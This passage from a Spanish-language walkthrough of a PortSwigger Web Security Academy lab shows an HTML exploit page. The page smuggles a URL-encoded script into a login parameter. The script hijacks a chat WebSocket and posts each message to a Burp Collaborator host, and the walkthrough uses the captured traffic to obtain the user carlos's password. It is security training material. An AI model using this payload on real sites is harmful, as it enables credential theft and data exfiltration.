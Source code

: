 Posteriormente nos debemos `crear` este otro `payload`

```
<html>
    <body>
        <script>
            document.location = 'https://cms-0a02002b038d819781de438e00860086.web-security-academy.net/login?username=%3c%73%63%72%69%70%74%3e%0a%20%20%20%20%76%61%72%20%77%65%62%53%6f%63%6b%65%74%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%27%77%73%73%3a%2f%2f%30%61%30%32%30%30%32%62%30%33%38%64%38%31%39%37%38%31%64%65%34%33%38%65%30%30%38%36%30%30%38%36%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%63%68%61%74%27%29%3b%0a%0a%20%20%20%20%77%65%62%53%6f%63%6b%65%74%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%28%29%20%7b%0a%20%20%20%20%20%20%20%20%77%65%62%53%6f%63%6b%65%74%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0a%20%20%20%20%7d%3b%0a%0a%20%20%20%20%77%65%62%53%6f%63%6b%65%74%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%28%65%76%65%6e%74%29%20%7b%0a%20%20%20%20%20%20%20%20%66%65%74%63%68%28%27%68%74%74%70%73%3a%2f%2f%6a%37%72%6c%35%62%66%71%79%38%71%36%77%34%63%69%64%7a%73%6d%6c%69%69%70%65%67%6b%38%38%79%77%6e%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%27%2c%20%7b%6d%65%74%68%6f%64%3a%20%27%50%4f%53%54%27%2c%20%6d%6f%64%65%3a%20%27%6e%6f%2d%63%6f%72%73%27%2c%20%62%6f%64%79%3a%20%65%76%65%6e%74%2e%64%61%74%61%7d%29%3b%0a%20%20%20%20%7d%3b%0a%3c%2f%73%63%72%69%70%74%3e&password=test';
        </script>
    </body>
</html>
```

Nos dirigimos al `Exploit server`, `pegamos` el `payload` y `pulsamos` sobre `Deliver exploit to victim`

![](/assets/img/CSRF-Lab-9/image_23.png)

Si nos dirigimos a `Burpsuite Collaborator` y `pulsamos` sobre `Pull now` recibiremos `varias peticiones` por `HTTP` entre las cuales estará la `contraseña` del usuario `carlos`
